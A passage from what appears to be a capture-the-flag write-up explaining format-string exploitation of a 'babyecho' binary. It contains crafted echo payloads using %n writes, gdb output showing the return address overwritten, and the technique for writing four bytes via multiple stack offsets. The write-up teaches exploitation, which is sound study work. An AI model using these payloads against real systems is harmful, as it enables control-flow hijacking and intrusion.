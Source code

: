 We overwrote the return address with 4, just like we'd expect! Let's chain together the two exploits - the one for changing the length and the one for changing the return address (I'm quoting the strings separately to make it more clear, but bash will automatically combine them):

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff%10000x%7$n' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 1023 bytes
L...
[...lots of empty space...]
3ffSegmentation fault (core dumped)

$ <span class='in'>gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00002714 in ?? ()
</pre>

0x2714 = 10004 - so we can definitely control the return address!

<h2>Writing four bytes</h2>

When we're running it locally, we can also go a little crazy:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff%1094795581x%7$n' | ./babyecho &gt; /dev/null</span>
segmentation fault
$ <span class='in'>gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
</pre>

We use %1094795581x to write 0x4141413d bytes to stdout, then %7$n writes 0x41414141 to the return address. The problem is, if we were running that over the network, we'd have to wait for them to send us 1,094,795,581 or so bytes, which is around a gigabyte, so that's probably not going to happen. :)

What we need is to provide four separate addresses. We've been using %7$n all along to access the address identified by the first four bytes of the string:

<pre>
"AAAA%7$n"
</pre>

But we can actually do multiple addresses:

<pre>
"AAAABBBBCCCCDDDD%7$n%8$n%9$n%10$n"
</pre>

That will try writing to the 7th thing on the stack - 0x41414141. If that succeeds, it'll write to the 8th thing - 0x42424242 - and so on. We can prove that by using %..x instead of %..n:
